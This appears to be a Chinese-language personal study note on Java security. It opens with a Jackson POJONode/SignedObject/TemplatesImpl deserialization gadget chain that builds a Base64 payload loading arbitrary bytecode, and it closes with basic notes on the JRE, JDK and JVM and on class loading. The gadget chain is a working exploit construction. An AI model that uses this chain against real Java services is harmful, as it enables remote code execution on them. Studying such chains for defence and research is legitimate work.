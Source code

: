 
### POJONode->getter

```java
byte[] code= Files.readAllBytes(Paths.get("/Users/f1or/project/cc/target/classes/calc.class"));
        byte[][] codes={code};
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_name","aaa");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) templates, kp.getPrivate(), Signature.getInstance("DSA"));

        POJONode jsonNodes = new POJONode(signedObject);


        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        //反射设置 val
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, jsonNodes);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(badAttributeValueExpException);
        System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
```

调用tostring的时候直接就getter了，具体哪里实现没看（done）

不过要记得修改class文件，要把 [BaseJsonNode.class](../../../../Volumes/[C] Windows 11.hidden/Users/f1or/Desktop/BaseJsonNode.class) 覆盖下



### JVM

1.JRE(Java Runtime Environment)，java平台，所有的程序都得在这个平台下面运行

2.JDK(Java Development Kit)，用来调试，编译java程序的开发工具包，还自带有内置库。和工具javac这些

3.JVM(Java Virtual Machine)，JRE的一部分，JVM主要工作是解释自己的指令集（即字节码）并映射到本地的CPU指令集和OS的系统调用。Java语言是跨平台运行的，不同的操作系统会有不同的JVM映射规则，使之与操作系统无关，完成跨平台性。

一个class文件想要执行，必须加载到jvm中。

![image-20230728164832298](./image/image-20230728164832298.png)

加载、验证、准备、初始化和卸载这五个阶段的顺序是确定的，类型的加载过程必须按 照这种顺序按部就班地开始，而解析阶段则不一定：它在某些情况下可以在初始化阶段之后再开始， 这是为了支持Java语言的运行时绑定特性
